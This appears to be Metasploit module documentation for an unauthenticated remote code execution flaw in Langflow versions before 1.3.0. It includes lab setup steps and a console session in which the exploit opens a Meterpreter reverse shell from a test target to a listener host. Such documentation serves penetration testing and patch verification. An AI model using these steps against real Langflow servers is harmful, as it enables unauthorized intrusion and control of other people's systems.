 ## Vulnerable Application

Langflow versions prior to 1.3.0 are susceptible to code injection in the /api/v1/validate/code endpoint.
A remote and unauthenticated attacker can send crafted HTTP requests to execute arbitrary code.

The vulnerability affects:

    * Langflow < 1.3.0 even if authentication is enabled
    * Langflow <= 1.3.2 (latest at the time of this writing) if authentication isn't enabled.

This module was successfully tested on:

    * Langflow 1.3.2 installed with Docker (authentication isn't enabled)


### Installation
1. `git clone https://github.com/langflow-ai/langflow.git`

2. `cd langflow/docker_example`

3. `docker compose up`


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/multi/http/langflow_unauth_rce_cve_2025_3248`
4. Do: `run lhost=<lhost> rhost=<rhost>`
5. You should get a meterpreter


## Options


## Scenarios
```
msf > use exploit/multi/http/langflow_unauth_rce_cve_2025_3248
[*] Using configured payload python/meterpreter/reverse_tcp
msf exploit(multi/http/langflow_unauth_rce_cve_2025_3248) > options

Module options (exploit/multi/http/langflow_unauth_rce_cve_2025_3248):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    7860             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Python payload



View the full module info with the info, or info -d command.

msf exploit(multi/http/langflow_unauth_rce_cve_2025_3248) > run lhost=192.168.56.1 rhost=192.168.56.16
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version 1.3.2 detected and authentication is disabled. Which is vulnerable.
[*] Sending stage (24772 bytes) to 192.168.56.16
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.16:57118) at 2025-04-12 10:00:32 +0900

meterpreter > getuid
Server username: user
meterpreter > sysinfo
Computer        : 06d3984f101d
OS              : Linux 6.8.0-56-generic #58-Ubuntu SMP PREEMPT_DYNAMIC Fri Feb 14 15:33:28 UTC 2025
Architecture    : x64
System Language : C
Meterpreter     : python/linux
meterpreter > 
```
